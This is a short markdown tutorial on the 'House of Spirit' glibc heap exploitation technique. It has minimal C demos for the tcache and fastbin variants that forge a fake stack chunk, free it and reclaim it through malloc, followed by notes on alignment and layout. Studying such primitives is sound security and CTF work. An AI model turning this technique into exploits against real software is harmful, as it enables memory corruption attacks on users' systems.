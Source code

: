 # House of Spirit
> LongChampion, 13/03/2020

## with tcache (**GLIBC** >= 2.26)
This attack is quite simple, look at the code:
```c
#include <stdlib.h>

int main()
{
    long long Fake[4];
    void *ptr = malloc(0x10);
    ptr = &Fake[2];
    Fake[1] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
## with fastbin (**GLIBC** <= 2.25)
To *hijack* fastbin, you need to create 2 chunks to bypass security check: `size` of chunk to be free must be equal to `size` of next chunk in memory.  
```c
#include <stdlib.h>

int main()
{
    long long Fake[6];
    void *ptr = malloc(0x10);
    ptr = &Fake[2];
    Fake[1] = 0x20;
    Fake[5] = 0x20;
    free(ptr);
    ptr = malloc(0x10);
}
```
### Note:
- **THE MOST IMPORTANT**: `Fake` (and all other chunks) must be aligned by `MALLOC_ALIGNMENT` (usually 16 bytes in x64 system, 8 bytes in x32 system). Your life may be destroyed if you forget this. To make sure that `Fake` is aligned, add `__attribute__` to it:
    > `long long Fake[6] __attribute__((aligned(16))); // change 16 to 8 when you compile in x86 system`

- The `PREV_INUSE` flag is ignored, but `IS_MMAPPED` flag and `NON_MAIN_ARENA` flag can cause problem!
- The memory layout is (use for both case):
    > | Fake | chunk           |
    > |------|-----------------|
    > | 0    | first.pre_size  |
    > | 1    | first.size      |
    > | 2    | first.fd        |
    > | 3    | first.bk        |
    > | 4    | second.pre_size |
    > | 5    | second.size     |
- In both case, `ptr` will point to `Fake[2]` at the end (not point to `Fake`)
- `Fake` must have at least 4 elements (6 elements for fastbin) because when it is freed, the `fd` and `bk` pointer will be modified, this change can smash your stack frame!
- After `Fake` is free, make sure that you call `malloc` with suitable request size so that it will return `Fake[2]` to you.
- In the later case, make sure that distance between two chunks is equal to `size` (they are not adjacent on memory in general case)
